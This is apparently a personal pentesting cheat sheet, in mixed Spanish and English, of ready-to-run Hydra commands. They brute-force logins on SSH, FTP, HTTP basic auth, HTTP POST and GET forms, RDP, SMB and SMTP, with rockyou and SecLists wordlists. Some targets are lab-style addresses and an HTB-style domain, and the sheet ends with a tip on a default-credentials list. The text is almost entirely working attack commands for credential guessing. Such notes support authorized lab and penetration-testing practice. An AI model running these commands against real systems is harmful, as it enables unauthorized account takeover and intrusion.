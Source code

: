 

#### Ssh bruteforcing:
    hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://ip:port -t 4 -f
#### Ftp bruteforcing:
    hydra -l <nombre_de_usuario> -P <ruta_al_diccionario> <dirección_IP> ftp -f

#### Simplehttp auth:
    hydra -C dictionariy_compuesto ip -s port http-get "/path-to-login" -f

#### Login por método post:
    hydra -l user -P diccionario -f host/ip -s puerto http-post-form "path-to-login:variable_username=^USER^&variable_password=^PASS^:elemento html para comparación(mensaje de error de logueo, formulario, etc)"

#### Login por método get:
    hydra -L /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt -p minga -f 83.136.254.53 -s 53056 http-get-form "/question1:Username=^USER^&Password=^PASS^:Invalid username"

#### Login rdp:
    hydra -L user.list -P password.list rdp://10.129.42.197

#### Login smb:
    hydra -L user.list -P password.list smb://10.129.42.197

#### Smpt:
    hydra -l fiona@inlanefreight.htb -P pws.list smtp://10.129.203.7 -f


#### Listas interesantes:
ftp-betterdefaultpasslist.txt (seclist) credenciales user:pass

